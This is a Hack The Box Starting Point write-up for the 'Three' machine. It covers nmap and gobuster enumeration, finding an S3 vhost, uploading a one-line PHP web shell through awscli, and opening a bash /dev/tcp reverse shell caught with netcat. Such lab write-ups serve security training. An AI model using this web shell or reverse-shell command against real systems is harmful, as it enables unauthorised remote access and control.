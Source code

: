 # Three (HTB, Starting Point)

## Enumeration

### NMAP

**Command Used**
```
nmap -v -sC -sV -oA nmap/Three [ip-address]
```

**Output**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.49 seconds
zsh: segmentation fault  nmap -v -sV -sC -oA nmap/Three.nmap 10.129.126.225
```

- Found Port **80** open and running service **Apache httpd 2.4.29 ((Ubuntu))**.
- And Port **22/tcp** open and running service **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)**.

### On Browser

- Let's check the Running Website on the Target!

![img01](screenshots/img01.png)

### Gobuster

![img02](screenshots/img02.png)

- Looks like a PHP website is running on the machine.

### Inspecting Source Code!

![img03](screenshots/img04.png)

- From the Source Code we found an Email Address.

```
Email: mail@thetoppers.htb
```
Looks the the domain name could be **toppers.htb**

- Lets try to add it to our hosts file and then lookup more in the Website.

### Gobuster with vhosts

![img05](screenshots/img05.png)

- Found a subdomain named as **s3.thetoppers.htb**.

- Checking the url on the browser:

![img06](screeenshots/img06.png)

### Getting Details with awscli

**Listing the S3 Resources**

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

**Output**
![img07](screenshots/img07.png)

**Uploading our PHP webshell to the Target**

**PHP Shell Command**
```
<?php system($_GET['cmd']);?>
```
**Command to upload Shell to the Target:**
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
### Exploitation

- Checking if our Web-Shell is working fine by runing **id** command:

![img08](screenshots/img11.png)

**Serving a http server from our local machine to upload our reverse shell**

```
sudo python -m http.server 8000
```
- Also start the netcat listener on the configured port number same as in your bash reverse shell.

```
nc -lvnp 1234
```

- Now let's upload and run our Bash reverse shell command:

```
bash -i >& /dev/tcp/[ip-address]/1234 0>&1
```
![img09](screenshots/img08.png)

- On Netcat we instantly get the connection like this:
![img10](screenshots/img10.png)

**DONE**


